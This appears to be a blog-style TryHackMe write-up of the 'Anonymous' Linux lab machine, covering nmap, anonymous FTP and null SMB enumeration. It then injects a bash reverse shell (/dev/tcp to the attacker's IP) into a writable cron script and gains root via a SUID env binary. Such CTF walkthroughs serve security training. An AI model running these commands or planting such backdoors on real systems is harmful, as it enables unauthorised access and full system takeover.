 ```yaml
---
title: "Tryhackme Anonymous Write-up"
date: 2021-02-15 16.40 
categories: [Tryhackme, Linux]
tags: [thm ,ftp, suid, env]
author: LXD
image: /assets/img/posts/anonymous/anonymous.png
---
```


Hello, Today we are going to solve a machine named `Anonymous` which is linux based machine from [Tryhackme](https://tryhackme.com/). Let's the solution step by step.

### Reconnaissance

- Nmap scanning
- FTP enumeration 
- SMB enumeration

### Exploitation

- Writing to a writeable ftp file 
- Getting reverse shell

## Privilege Escalation

- Finding SUID Binaries
- Abuse of env SUID bit

## Reconnaissance

### Nmap Scanning

As always let's start with nmap scanning as described above.

> sudo nmap -sC -sV -oA nmap/anonymous-open-ports 10.10.25.138

Once we ran nmap by given command, it will return us following output;

```bash
# nmap -sC -sV -oA nmap/anonymous-ports -v -Pn 10.10.25.138
Increasing send delay for 10.10.25.138 from 0 to 5 due to 11 out of 11 dropped probes since last increase.
Nmap scan report for 10.10.25.138
Host is up (0.077s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
| ftp-syst:
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.17.122
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
|_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   ANONYMOUS<00>        Flags: <unique><active>
|   ANONYMOUS<03>        Flags: <unique><active>
|   ANONYMOUS<20>        Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|_  WORKGROUP<1e>        Flags: <group><active>
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2022-10-22T14:13:41+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-10-22T14:13:41
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

### FTP Enumeration

According to the result of nmap, we have 4 open ports. FTP is running on port 21, SSH is running on port 22 and SMB is running on port 139,445.Regarding to the nmaps's output we can understand that FTP anonymous login is allowed. If we try to log in ftp server with anonymous and anonymous credentials, we'll get a successfull login. 

![FTP Login](/assets/img/posts/anonymous/ftp_login.png)

Once we login we can see that there is a directory called scripts and this directory has 3 different files. Here are the content of the directory.

`cleans.sh`
```bash
#!/bin/bash
tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```

`removed_files.log`
```bash
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
```

`to_do.txt`
```bash
I really need to disable the anonymous login...it's really not safe
```

As we can see ,we do have writing and execution privileges.

### SMB Enumeration

We can use the smbclient tool to list shared folders in SMB. 

> smbclient -L \\\\10.10.25.138\\

After running the command we see that there is shared folder named `pics`. We can log in to the smb server with the use of null authentication in SMB. 

> smbclient \\\\10.10.25.138\\pics -U ''

When we log in to smb, we see that there are 2 dog pictures.

![Dog 1](/assets/img/posts/anonymous/corgo2.jpg)
![Dog 2](/assets/img/posts/anonymous/puppos.jpeg)

`Spoiler Alert: These pictures will not lead you anything useful ,just a rabbit hole.`

## Exploitation

Since there is no any other service back to gather information, our next process will be exploitation. Now, we've only cleans.sh which is a scheduled task on the machine.

### Writing to clean.sh file

It runs per 1 minute and programmed to `echo` this text ("Running cleanup script:  nothing to delete") into `removed_files.log` file. If we put our reverse shell into `clean.sh`, we can gain access to the system as a low privileged user. Our code will be like this;

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.9.17.122/1337 0>&1
tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```

### Getting Reverse Shell

![Clean bash file](/assets/img/posts/anonymous/ftp_clean.png)

We replace the clean.sh file with ours. Once clean.sh file runs again we'll get a shell.

![Getting Shell](/assets/img/posts/anonymous/shell.png)

## Privilege Escalation

Now, It's time to upgrade our privileges. `I checked that if there is an any command that we can run with sudo rights but there's nothing.` 

### Abuse of env SUID bit

![Linpeas](/assets/img/posts/anonymous/linpeas.png)

Hmm it's interesting ,let's confirm it existence with following command:

> find / -user root -perm -u=s 2>/dev/null

![PE Confirmation](/assets/img/posts/anonymous/PE_Confirmation) 


Indeed ,there's a non-standard SUID BIT calling `env`.


We can exploit this SUID bit like this;

> env /bin/sh -p

![Becoming Root](/assets/img/posts/anonymous/root.png)

We escalate our privilege to root.

Thank you for your time ,Stay Tunned!
